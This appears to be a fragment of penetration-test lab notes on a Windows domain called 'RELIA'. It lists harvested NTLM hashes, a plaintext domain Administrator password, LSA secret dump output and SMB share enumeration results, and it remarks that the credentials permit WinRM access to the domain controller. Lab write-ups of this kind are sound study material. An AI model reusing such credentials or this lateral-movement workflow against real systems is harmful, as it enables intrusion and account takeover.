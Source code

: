 andrea:PasswordPassword_6:ce3f12443651168b3793f5fbcccff9db

Administrator::8b4547a5116dd13e6e206d1286a06b28



On 172.16.x.21 as andrea:


We will take a look at scripts.help

Possible:
RELIA\Administrator:vau!XCKjNQBv2$ - We can WinRM in the DC with these credentials.
```sh
Secret  : _SC_SNMPTRAP / service 'SNMPTRAP' with username : RELIA\andrea
cur/text: PasswordPassword_6
old/text: jVmhsH4sbuVwP$2
```

```sh
SMB         172.16.130.21   445    FILES            [+] relia.com\andrea:PasswordPassword_6 
SMB         172.16.130.21   445    FILES            [+] Enumerated shares
SMB         172.16.130.21   445    FILES            Share           Permissions     Remark
SMB         172.16.130.21   445    FILES            -----           -----------     ------
SMB         172.16.130.21   445    FILES            ADMIN$                          Remote Admin
SMB         172.16.130.21   445    FILES            apps            READ            
SMB         172.16.130.21   445    FILES            C$                              Default share
SMB         172.16.130.21   445    FILES            IPC$            READ            Remote IPC
SMB         172.16.130.21   445    FILES            monitoring      READ            
SMB         172.16.130.21   445    FILES            scripts         READ 
```
